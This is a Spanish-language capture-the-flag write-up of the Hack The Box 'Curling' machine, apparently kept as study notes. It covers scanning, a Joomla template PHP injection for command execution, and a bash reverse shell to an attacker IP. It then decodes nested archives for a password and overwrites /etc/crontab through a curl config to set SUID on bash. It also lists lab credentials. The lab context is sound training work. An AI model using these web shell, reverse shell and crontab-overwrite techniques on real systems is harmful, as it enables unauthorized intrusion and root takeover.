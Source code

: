 # [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]
```
ping -c 1 10.10.10.150
nmap -p- --open -vvv -sS --min-rate 5000 -n -Pn 10.10.10.150 -oG allports
extract Ports allports
nmap -sCV -p22,80 10.10.10.150 -oN target
whatweb http://10.10.10.150
nmap --script http-enum -p22,80 10.10.10.150 -oN webScan
```
![[Curling1.png]]![[Curling2.png]]
*Resultado:*
Es una maquina linux por el ttl
Puertos 22 ssh y 80 apache abiertos

--------------
# [[Whatweb-wappalyzer]]

![[Curling3.png]]
El whatweb no nos da ninguna información relevante, y tenemos para probar muchos directorios.
Este nos da un panel de acceso
	http://10.10.10.150/administrator/
	
Viendo el codigo fuente de la pagina principal http://10.10.10.150 al final de todo nos pone secret.txt
![[Curling4.png]]
Entramos a http://10.10.10.150/secret.txt
![[Curling5.png]]
Es una linea en base64
![[Curling6.png]]
Esta va a ser la contraseña, y el usuario lo saque de esta publicacion
![[Curling7.png]]

Usuario: Floris
Contraseña: Curling2018!

-------------
# RCE(Remote Comand Ejecution) En joomla
### Enumeracion
[Articulo que explica como sacar una revershell con joomla](https://www.hackingarticles.in/joomla-reverse-shell/)
Vamos a ir a la parte de templates, 
![[Curling8.png]]

Vamos a seleccionar la parte de templates que esta a la izquierda, y despues vamos a elegir cualquiera en mi caso uso el de beez3
![[Curling9.png]]
Ahora vamos a modificar en mi caso el archivo error.php y le vamos a inyectar este comando. Y guardamos los cambios
```
<?php system("whoami");?>
```
![[Curling10.png]]
Ahora cuando entremos al link
http://10.10.10.150/templates/beez3/error.php nos tendria que aparecer la respuesta del comando whoami
![[Curling11.png]]

### Explotacion

Como nos responde que usuarios somos, ya sabemos que hay un RCE, y vamos a intentar mandarnos una [[Reverse shell]]

 ```php
 <?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'");?>
```
Mientras nos ponemos en escucha con [[nc -nlvp 443]]
![[Curling12.png]]
Y listo ya ganamos acceso a la maquina
![[Curling13.png]]

-----------
# [[Apuntes Directo/Herramientas-Comandos/Tratamiento de la TTY|Tratamiento de la TTY]]

----------
# Escalada de privilegios

### Escalamos al usuario de floris

##### Enumeracion y explotacion junto(No se diferenciar): Mediante comprimidos ocultos
Encontramos esto en el home de floris y vamos a usar la herramienta [[xxd]] ya que esta en hexadecimal, para descifrar el contenido
![[Curling15.png]]
```shell
cat password_backup | xxd -r  > /tmp/pass
```
No da nada legible, asi que al aplicar un `file pass` veo que el tipo de archivo es bzip2, asi que por lo tanto es un comprimido, asi que empiezo a descomprimir                 |                 [[file]]
![[Pasted image 20250531234516.png]]
[[Comprimidores de archivos]]
```shell
bzip2 -d pass
file pass.out   //Veo que es un gzip
mv pass.out pass.gz
gzip -d pass.gz
file pass // Veo que es un bzip2 de nuevo
bzip2 -d pass
file pass.out // Es un archivo tar ahora
tar xf pass.out
cat password.txt
```

![[Curling16.png]]
*Contraseña:* 5d<wdCbdZu)|hChXll

Ya tenemos una contraseña que aparenta ser de floris, asi que vamos a intentar conectarnos por [[ssh]]

![[Curling17.png]]
Ya podemos sacar la primera flag, y solamente nos faltaria hacernos root para completar el laboratorio

### Escalada a root: Mediante tarea cron

##### Enumeracion
Ejecutamos el [[PSPY]]
![[Curling18.png]]
Vemos en el PID 2872 el curl que manda con el parametro `curl -K`, que sirve para especificar la configuracion mediante un archivo.    [[curl]]

##### Explotacion
Vamos a crear un archivo exploit en un nuestra maquina
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

* * * * * root chmod u+s /bin/bash
```
Vamos a abrir un server con [[python3 -m http.server]]

Contenido del archivo input
```
url = "http://10.10.16.4/exploit"              // En donde esta el 10.10.16.4 va nuestra ip de atacante y despues del / va el nombre del archivo
output = "/etc/crontab"
```

Ahora cuando se ejecute la tarea cron, va a hacer que la bash tenga permisos SUID
![[Curling19.png]]
Una vez que vemos la s, ya sabemos que podemos ejecutar `bash -p` para ganar permisos en la bash
![[Curling20.png]]
Ya estamos logeados como root, asi que podemos visualizar la flag
# Notas

`uname -m`                              |    [[uname]]
Es para ver si el OS es de 32 o 64, si devuelve x86_64 es de 64

`curl -k`                                 | [[curl]]
	`-k` Ignora los errores de certificados SSL/TLS
	`-K` Sirve para leer opciones desde un archivo de configuracion en lugar de pasarlos por una linea de comando en la shell

##### Diferencias entre sh, bash y zsh 
*Las 3 utilizan los mismos comandos de base, pero puede haber funcionalidades que tenga la zsh, y que no esten en la sh*
`sh` Es la mas antigua, tiene menos funciones y es la shell original
`bash` Mas completa que la sh y actualizada
`zsh` Es como la bash pero con esteroides y mas personalizable


###### Por que se define la BASH y SHELL en la tarea cron
*SHELL:* Si no se especifica va a usar por defecto una sh, la cual puede ser que no interprete todos los comandos
*PATH:* Si no se pone esto, cron puede no encontrar cosas como python, nc, curl, bash, etc

# Creditos
[Writeup de lanzt](https://lanzt.github.io/htb/curling)
Writeup oficial de HTB

